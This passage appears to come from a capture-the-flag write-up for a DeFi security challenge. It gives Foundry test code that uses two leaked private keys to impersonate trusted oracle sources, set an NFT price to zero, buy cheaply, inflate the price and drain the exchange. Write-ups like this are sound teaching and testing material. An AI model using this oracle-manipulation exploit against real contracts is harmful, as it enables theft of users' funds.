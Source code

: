 Then, in the Solidity test, we use these decoded private keys:

```solidity
uint256 privateKey1 = 0x7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744;
uint256 privateKey2 = 0x68bd020ad186b647a691c6a5c0c1529f21ecd09dcc45241402ac60ba377c4159;

address source1 = vm.addr(privateKey1);
address source2 = vm.addr(privateKey2);

// Verify these addresses are in the trusted sources
bool foundSource1 = false;
bool foundSource2 = false;
for (uint256 i = 0; i < sources.length; i++) {
    if (sources[i] == source1) foundSource1 = true;
    if (sources[i] == source2) foundSource2 = true;
}
require(foundSource1 && foundSource2, "Derived addresses are not in the trusted sources");
```

2. Manipulate the oracle price to zero:

```solidity
vm.startPrank(source1);
oracle.postPrice("DVNFT", 0);
vm.stopPrank();

vm.startPrank(source2);
oracle.postPrice("DVNFT", 0);
vm.stopPrank();
```

3. Buy an NFT at the manipulated price:

```solidity
vm.startPrank(player);
uint256 tokenId = exchange.buyOne{value: 1 wei}();
vm.stopPrank();
```

4. Manipulate the price to drain the exchange:

```solidity
uint256 drainPrice = address(exchange).balance;
vm.startPrank(source1);
oracle.postPrice("DVNFT", drainPrice);
vm.stopPrank();

vm.startPrank(source2);
oracle.postPrice("DVNFT", drainPrice);
vm.stopPrank();
```

5. Sell the NFT at the inflated price:

```solidity
vm.startPrank(player);
nft.approve(address(exchange), tokenId);
exchange.sellOne(tokenId);
// ...
vm.stopPrank();
```
